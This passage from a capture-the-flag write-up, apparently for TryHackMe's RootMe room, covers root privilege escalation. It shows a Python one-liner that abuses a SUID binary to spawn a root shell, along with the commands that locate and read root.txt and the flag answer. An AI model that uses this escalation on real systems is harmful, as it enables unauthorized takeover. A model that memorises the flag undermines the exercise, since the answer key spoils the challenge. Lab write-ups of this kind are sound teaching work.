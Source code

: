 ### Abusing SUID bit of /usr/share/python

- Look for the exploit in [GTFO bins](https://gtfobins.github.io/gtfobins/python/)
- Here, we set the UID to 0 (root).

```bash
www-data@rootme:/$ python -c 'import os; os.setuid(0); os.system("/bin/sh")'
# id
uid=0(root) gid=33(www-data) groups=33(www-data)
```

### root.txt
- **Answer:** THM{pr1v1l3g3_3sc4l4t10n}
- **Steps to Reproduce:** 

```bash
# find / -name "root.txt" -type f 2>/dev/null
/root/root.txt
# cd /root
# ls
root.txt
# cat root.txt
THM{pr1v1l3g3_3sc4l4t10n}
```

---